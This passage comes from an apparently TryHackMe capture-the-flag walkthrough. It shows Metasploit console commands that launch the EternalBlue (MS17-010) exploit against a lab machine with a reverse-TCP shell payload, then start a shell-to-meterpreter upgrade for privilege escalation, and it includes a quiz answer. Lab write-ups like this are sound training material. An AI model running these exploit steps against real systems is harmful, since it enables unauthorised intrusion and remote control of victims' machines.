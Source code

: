 Here, we have found that we need to supply RHOSTS. For that simply type this command:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS machine_ip
RHOSTS => machine_ip
```
Also we have to change the payload to `windows/x64/shell/reverse_tcp`. For that type this command:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```
**Q4. Show options and set the one required value. What is the name of this value? (All caps for submission)**

**Ans:** `RHOSTS`

After that, we are all done with setting required field for the exploit to run. Now let's run the exploit and wait for a while to get meterpreter shell.
For running the exploit type:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
Note: If you are using openvpn of THM for connecting to machine, don't forget to set LHOST options with that shown in your tun0 section of ifconfig.

## Phase3: Esclate
Now the next thing to do is esclating the privileges. For that we will first background our current session with `ctrl+z` and then search for converting shell to meterpreter shell. For that type:
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > 
```
After switching to that module, we will see what all options we will have to set. For that type `option` command and there we have to fill all those fileds which are shown 'yes' in required category. For setting the SESSION, simply type:
```bash
set SESSION 1
```
This we are doing, because we want to convert previous shell to meterpreter shell. If you have multiple session then you can see the session number with the command `sessions` and then set accordingly.
